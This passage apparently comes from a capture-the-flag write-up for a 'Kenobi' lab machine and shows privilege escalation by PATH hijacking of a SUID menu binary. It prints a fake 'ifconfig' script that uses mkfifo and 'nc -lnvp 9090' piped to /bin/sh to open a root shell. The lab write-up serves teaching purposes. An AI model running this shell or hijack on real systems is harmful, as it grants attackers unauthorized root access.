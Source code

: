     .init_array
    .fini_array
    .jcr
    .dynamic
    .got.plt
    .data
    .bss
    .comment
    ```

    * This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).
* we can create executable file called curl or uname or any tool in menu binary to the binary will run it
* I will create a file called “ifconfig” and it’s content is:

```
#!/bin/sh
echo "Done" >> /tmp/IsDone.txt
mkfifo /tmp/f ; nc -lnvp 9090 < /tmp/f | /bin/sh > /tmp/f 2>&1
```

* I tried to use nano but it isn't installed so I used vim
*   then we should make it executable using `chmod +x ifconfig` , and append /tmp directory to the PATH env

    <img src="../Kenobi/images/Untitled 13.png" alt="Untitled" data-size="original">
*   if we run `/usr/bin/menu` and choose 3 to run `ifconfig`

    <img src="../Kenobi/images/Untitled 14.png" alt="Untitled" data-size="original">

    * we can see that netcat listener started so we can connect using our kali Linux machine

    <img src="../Kenobi/images/Untitled 15.png" alt="Untitled" data-size="original">
* Great job, we are root now
